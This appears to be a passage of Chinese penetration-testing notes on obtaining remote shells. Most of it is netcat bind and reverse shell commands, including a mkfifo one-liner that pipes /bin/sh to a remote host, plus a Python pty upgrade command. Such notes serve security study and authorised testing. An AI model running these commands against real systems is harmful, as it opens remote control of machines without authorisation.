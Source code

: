 Server 监听 将 /bin/sh 传输到

```plaintext
nc -lvp <Port> -e /bin/sh
```

Client 连接到目标端口即可拿到 Shell

```plaintext
nc <IP> <Port>
```

nc 没有 -e 参数如何反弹。

```plaintext
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP> <Port> > /tmp/f
```

详见 [Netcat - raingray Blog](https://www.raingray.com/archives/438.html#%E8%BF%9C%E7%A8%8B%E6%8E%A7%E5%88%B6) 一文

> Server 监听 333 端口，用 -c 把 shell 传过去，`-c` 是使用 shell。
> 
> ```plaintext
> nc -lp 333 -c bash
> ```
> 
> Client nc 连接到 Server 333 端口，由于服务端把 shell 传过来了，客户端就拥有执行命令的权限，权限多大的具体看用户。
> 
> ```plaintext
> nc 172.28.112.34 333
> ```
> 
> 另外还有种用法是客户端监听 333 端口（测试者开放端口等待服务端连接）。
> 
> ```plaintext
> nc -lp 333
> ```
> 
> 服务端连连接 333 端口把自己的 shell 传给客户端。得到目标系统 shell 后可以利用这种方法把目标系统 shell 传给测试者（让服务器主动连接测试者）。
> 
> ```plaintext
> B(server)：nc 172.28.112.34 333 -c bash
> ```
> 
> 注：如果是 Windows 请把 shell 换成 cmd。

#### 2.2.3 Python

通过 Python 获取 pty 终端，不太好用但相比 Bash 反弹的 Shell 来说好多了。

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

关于获取一个标准终端的两篇文章

[https://www.freebuf.com/news/142195.html](https://www.freebuf.com/news/142195.html)  
[https://bbs.ichunqiu.com/thread-54982-1-1.html](https://bbs.ichunqiu.com/thread-54982-1-1.html)
